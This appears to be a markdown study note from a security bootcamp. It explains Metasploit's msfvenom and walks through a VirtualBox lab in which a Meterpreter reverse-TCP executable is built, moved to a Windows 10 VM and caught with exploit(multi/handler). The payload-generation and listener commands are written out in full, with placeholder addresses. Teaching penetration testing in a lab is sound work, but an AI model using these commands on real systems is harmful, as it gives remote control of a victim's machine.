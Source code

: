 ## msfvenom:
- msfvenom is a command-line tool in Metasploit.
- Used to create custom payloads for exploiting vulnerabilities in target systems.
- It allows you to generate various types of payloads, such as reverse shells or malicious files, which can be used for penetration testing or attacks.
- `Syntex: msfvenom -p <payload> <options> -f <format> -o <output_file>`

## some useful CMD:
- msfvenom --help
- msfvenom --list <anything eg. encoder, file format, arch etc> 

- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/224a9deb-f7af-4b84-b35d-728ad3a2c787)

- msfvenom Path `/usr/bin`

## Steps to create a basic Payload:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP-of-Local-VM> LPORT=<Listening-Port-Local-VM> -f <file type eg. exe> -o <Output File Name eg. payload.exe>`
- After running it in the terminal, One .exe file will be obtained.
- Since, the Target VM isn't vulnerable in this example hence, this `.exe` file needs to be `transferred from the Local VM to Target VM by any means.`
- In this case of Virtual Box, a shared folder can be used to transfer the `.exe` file to Target `Windows 10 VM.`

- After transferring, use `exploit(multi/handler)` & set the options `LHOST=<IP-of-Local-VM>` `LPORT=<Listening-Port-Local-VM>` `Payload: windows/x64/meterpreter/reverse_tcp`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/36967cb6-f760-4bdc-922e-c7335bb69bae)
> Run the `exploit(multi/handler)` before running the Payload in Target VM.
- Run the `.exe` file in the `Windows 10 VM` (Nothing will happen there)


 
